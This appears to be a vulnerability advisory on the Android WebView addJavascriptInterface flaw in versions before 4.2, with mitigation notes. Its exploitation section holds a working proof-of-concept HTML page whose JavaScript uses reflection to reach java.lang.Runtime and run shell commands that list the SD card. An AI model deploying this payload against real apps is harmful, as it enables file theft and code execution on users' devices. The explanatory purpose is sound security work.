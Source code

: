 ###Vulnerability Description:###
A lot of the time we use WebView to display a Webpage,for example many applications in order to achieve the server control, many results page is Webpage, rather than the local implementation, which has many advantages, such as interface change does not need to release a new version, directly modify the line at Server end. With Webpage to display interface, usually are more or less with the Java code have interaction, such as a button click Webpage above, we need to know the button click event, or we have to call a method, make the page to perform some action, in order to achieve these interactions, we usually use JS to achieve, while WebView has provided such a method, the specific usage is as follows: 


	mWebView.getSettings().setJavaScriptEnabled(true);  
    mWebView.addJavascriptInterface(new JSInterface(), "jsInterface");
    
We asked WebView to register a name "jsInterface" of the object, and then can access to the jsInterface object in JS, you can invoke some methods of the object, the final call to Java code, so as to realize the interaction of JS and Java code.
We work together to have a look on the **addJavascriptInterface** method on the Android website description: 

_This method can be used to allow JavaScript to control the host application. This is a powerful feature, but also presents a security risk for applications targeted to API level JELLYBEAN or below, because JavaScript could use reflection to access an injected object's public fields. Use of this method in a WebView containing untrusted content could allow an attacker to manipulate the host application in unintended ways, executing Java code with the permissions of the host application. Use extreme care when using this method in a WebView which could contain untrusted content._

JavaScript interacts with Java object on a private, background thread of this WebView. Care is therefore required to maintain thread safety.
The Java object's fields are not accessible.

 
Simply put, is to use addJavascriptInterface may lead to insecurity, because JS may contain malicious code. This loophole and today we want to say is this, when JS contains malicious code, it can do anything.

--------


###Vulnerablity Impact:###
Through the JavaScript, anything can access the device on the SD card, and even contact information, SMS etc.. It's disgusting, quack. 

1. WebView adds a JavaScript object, and the current application with SDCard read and write permissions, or: android.permission.WRITE_EXTERNAL_STORAGE

2. Through the window object can be found in JS, the object "getClass" method, and then through the reflection mechanism, get the Runtime object, then call the static method to run some commands, such as access to the file command.

3. The string returned from the execution command input stream, you can get the information of the file name. Then do what you want to do, good risk. The core JS code as follows: 


    function execute(cmdArgs)  
    {  
        for (var obj in window) {  
            if ("getClass" in window[obj]) {  
                alert(obj);  
                return  window[obj].getClass().forName("java.lang.Runtime")  
                     .getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);  
            }  
        }  
    }   

------
###Exploitation:###

In order to prove this loophole, I'm just loading a malicious JS code of the local Webpage, HTML the code as follows:


    <html>  
      <head>  
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">  
        <script>  
          var i=0;  
          function getContents(inputStream)  
          {  
            var contents = ""+i;  
            var b = inputStream.read();  
            var i = 1;  
            while(b != -1) {  
                var bString = String.fromCharCode(b);  
                contents += bString;  
                contents += "\n"  
                b = inputStream.read();  
            }  
            i=i+1;  
            return contents;  
           }  
            
           function execute(cmdArgs)  
           {  
            for (var obj in window) {  
                console.log(obj);  
                if ("getClass" in window[obj]) {  
                    alert(obj);  
                    return window[obj].getClass().forName("java.lang.Runtime").  
                        getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);  
                 }  
             }  
           }   
            
          var p = execute(["ls","/mnt/sdcard/"]);  
          document.write(getContents(p.getInputStream()));  
        </script>  
      
        <script language="javascript">  
          function onButtonClick()   
          {  
            // Call the method of injected object from Android source.  
            var text = jsInterface.onButtonClick("Text passed in from the JS！！！");  
            alert(text);  
          }  
      
          function onImageClick()   
          {  
            //Call the method of injected object from Android source.  
            var src = document.getElementById("image").src;  
            var width = document.getElementById("image").width;  
            var height = document.getElementById("image").height;  
      
            // Call the method of injected object from Android source.  
            jsInterface.onImageClick(src, width, height);  
          }  
        </script>  
      </head>  
      
      <body>  
          <p>Click on the image to the URL to Java code</p>  
          <img class="curved_box" id="image"   
             onclick="onImageClick()"  
             width="328"  
             height="185"
             src="https://avicoder.me/webview/phuck.png"  
             onerror="this.src='phuckerror.png'"/>  
        </p>  
        <button type="button" onclick="onButtonClick()">Interaction with the Java code</button>  
      </body>  
    </html>  

1. Please seeexecute()The method, which the traversal of all window object, an object with a getClass method and then find, use this object class, find the java.lang.Runtime object, then call the "getRuntime" static method to get an instance of Runtime, and then call exec () method to execute a command.
2. getContents()Methods, read from the stream, displayed in the interface.
3. Key code is in the following sentences

`return      window[obj].getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);`

Java code is as follows: 
 
    mWebView = (WebView) findViewById(R.id.webview);  
    mWebView.getSettings().setJavaScriptEnabled(true);  
    mWebView.addJavascriptInterface(new JSInterface(), "jsInterface");  
    mWebView.loadUrl("file:///android_asset/html/test.html");  

Need to add permissions:  

    <uses-permission android:name="android.permission.INTERNET"/>  
    <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE" />  
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />  

------
###Mitigation###
-  System Android 4.2 or above
In Android 4.2 or above, Google was modified, the statement on the Java remote method of a @JavascriptInterface, as in the following code: 


    class JsObject {  
       @JavascriptInterface  
       public String toString() { return "injectedObject"; }  
    }  
    webView.addJavascriptInterface(new JsObject(), "injectedObject");  
    webView.loadData("", "text/html", null);  
    webView.loadUrl("javascript:alert(injectedObject.toString())");  

-  System Android 4.2 below

This problem is difficult to solve, but also can not solve.
First of all, we must not call the addJavascriptInterface method. On this issue, the core is to know the JS event this one action, JS interacts with Java we know, there are several, than the prompt, alert, such action would correspond toWebChromeClientMethod, the corresponding class for prompt, which corresponds to theonJsPromptMethod, this method statement as follows: 


    public boolean onJsPrompt(WebView view, String url, String message,   
        String defaultValue, JsPromptResult result)  

By this method, JS can make information (text) transfer to Java, and Java also can get information (text) is transmitted to the JS.